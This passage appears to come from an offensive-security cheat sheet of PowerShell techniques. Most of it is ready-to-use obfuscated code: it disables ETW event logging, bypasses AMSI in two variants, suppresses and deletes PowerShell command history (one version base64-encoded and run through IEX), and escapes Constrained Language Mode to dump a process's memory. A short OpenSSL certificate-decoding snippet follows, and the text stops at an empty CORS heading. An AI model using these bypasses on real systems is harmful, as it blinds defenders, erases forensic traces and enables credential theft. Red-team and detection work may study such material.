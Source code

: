 ### Generic PowerShell Bypass Techniques
```powershell
# Logging bypass:

(({}).gettype())."aSs`emblY"."Getty`PE"(('System.Manage'+'ment.Automati'+'on.Trac'+'ing.P'+'SEtwL'+'og'+'Pro'+'vi'+'d'+'e'+'r'))."gEtf`ieLD"(('etwProvi'+'de'+'r'),('Non'+'P'+'ublic,Static'))."Se`TVAL`Ue"($null,(New-Object System.Diagnostics.Eventing.EventProvider(New-Guid)))

# AMSI Bypass (old, burned)

sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )

# New AMSI bypass obfuscation:

[ReF]."`A$(echo sse)`mB$(echo L)`Y"."g`E$(echo tty)p`E"(( "Sy{3}ana{1}ut{4}ti{2}{0}ils" -f'iUt','gement.A',"on.Am`s",'stem.M','oma') )."$(echo ge)`Tf`i$(echo El)D"(("{0}{2}ni{1}iled" -f'am','tFa',"`siI"),("{2}ubl{0}`,{1}{0}" -f 'ic','Stat','NonP'))."$(echo Se)t`Va$(echo LUE)"($(),$(1 -eq 1))

# Neuter Writes to History Log:

Set-PSReadlineOption -HistorySaveStyle SaveNothing

# Encoded version of blocking writes to history

[System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('UwBlAHQALQBQAFMAUgBlAGEAZABsAGkAbgBlAE8AcAB0AGkAbwBuACAALQBIAGkAcwB0AG8AcgB5AFMAYQB2AGUAUwB0AHkAbABlACAAUwBhAHYAZQBOAG8AdABoAGkAbgBnAA==')) | IEX

# Delete history logs

rm (Get-PSReadlineOption).HistorySavePath

# Constrained Language Mode Bypass

$command = @"
powershell -c "iex (cat c:\users\public\documents\Invoke-MemoryDump.ps1 | out-string); Invoke-MemoryDump -ProcID 544 -OutputPath 'C:\users\public\documents\out.dmp'"
"@

$CurrTemp = $env:temp
$CurrTmp = $env:tmp
$TEMPBypassPath = "C:\windows\temp"
$TMPBypassPath = "C:\windows\temp"

Set-ItemProperty -Path 'hkcu:\Environment' -Name Tmp -Value "$TEMPBypassPath"
Set-ItemProperty -Path 'hkcu:\Environment' -Name Temp -Value "$TMPBypassPath"

Invoke-WmiMethod -Class win32_process -Name create -ArgumentList $command
sleep 5

Set-ItemProperty -Path 'hkcu:\Environment' -Name Tmp -Value $CurrTmp
Set-ItemProperty -Path 'hkcu:\Environment' -Name Temp -Value $CurrTemp
```
### Decode PEM/DER Certs with OpenSSL
```
openssl x509 -in CERTIFICATE.pem -text -noout
openssl x509 -inform der -in CERTIFICATE.der -text -noout
```
### CORS Exploitation Example